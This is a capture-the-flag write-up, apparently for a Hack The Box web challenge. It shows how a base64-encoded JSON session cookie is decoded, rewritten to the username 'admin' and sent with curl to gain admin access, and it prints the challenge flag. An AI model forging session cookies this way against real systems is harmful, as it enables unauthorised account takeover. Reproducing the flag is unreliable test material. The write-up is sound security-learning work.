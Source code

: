 Inspect the request and response:

![baby-auth](/assets/ss-htb-owasp/baby-auth/baby_auth_3.jpg)

Base64 strings in cookies are always interesting. Inspect the string:

```bash
eyJ1c2VybmFtZSI6InBpZG51bGwifQ%3D%3D

# decode %3D%3d -> ==
eyJ1c2VybmFtZSI6InBpZG51bGwifQ==

juancho💀hackbox:baby-auth$ base64 -d <<< eyJ1c2VybmFtZSI6InBpZG51bGwifQ==; echo
{"username":"pidnull"}
juancho💀hackbox:baby-auth$ 
```

So the cookie `PHPSESSID` is a base64-encoded JSON string containing our username.

Can we spoof this to another username, such as `admin`?

```bash
# encode
juancho💀hackbox:baby-auth$ echo -n '{"username":"admin"}' | base64
eyJ1c2VybmFtZSI6ImFkbWluIn0=
juancho💀hackbox:baby-auth$ 

# try to login

```bash
juancho💀hackbox:baby-auth$ curl http://167.99.202.131:30509/ --cookie 'PHPSESSID=eyJ1c2VybmFtZSI6ImFkbWluIn0=' | grep HTB
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2830  100  2830    0     0   9487      0 --:--:-- --:--:-- --:--:--  9496
                                                <h1>HTB{s3ss10n_1nt3grity_1s_0v3r4tt3d_4nyw4ys}</h1>
juancho💀hackbox:baby-auth$ 
```

It worked and gave us the flag!
